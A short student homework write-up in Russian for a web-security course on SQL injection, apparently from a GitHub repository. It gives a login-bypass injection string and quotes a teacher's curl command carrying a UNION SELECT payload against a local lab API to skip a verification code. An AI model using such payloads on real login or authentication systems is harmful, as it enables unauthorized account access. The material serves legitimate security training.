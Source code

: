 [Задание](https://github.com/netology-code/ibweb-homeworks/tree/master/03_sql)

## Задача 1

Нужно ввести в графу логин: sasha' OR '1' = '1 , в графу пароль что угодно.

## Задача 2 

Выполнить не смог, вот комментарий преподавателя:

```
Максим, приветствую!
Благодарю за выполнение ДЗ - ответы на обязательные вопросы верны.
Задание 2 – Код подтверждения. Пробуйте в командной строке такую конструкцию:
curl ‘http://127.0.0.1:8888/api/auth/verification’ -H ‘Content-Type: application/json’ --data-raw $’{“login”:"’ union select NULL, ‘sasha’, ‘2222’, NULL, NULL – ",“code”:“2222”}'
Тем не менее обязательная часть выполнена верно, поэтому - зачет.
Желаю успехов в дальнейшем изучении курса!
```
